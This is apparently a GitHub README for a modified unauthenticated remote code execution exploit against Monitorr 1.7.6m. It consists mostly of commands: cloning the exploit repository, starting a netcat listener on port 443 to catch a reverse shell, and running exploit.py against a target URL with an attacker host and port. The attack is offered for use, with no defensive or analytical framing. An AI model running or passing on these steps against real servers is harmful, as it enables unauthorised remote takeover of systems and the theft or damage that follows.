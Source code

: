 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``

``cd monitorr_1.7.6m_remote_code_execution_modified``

### Netcat (another terminal)
``apt install rlwrap``
``rlwrap nc -lvnp 443``

### Exploit
``python exploit.py https://domain.com LHOST PORT``
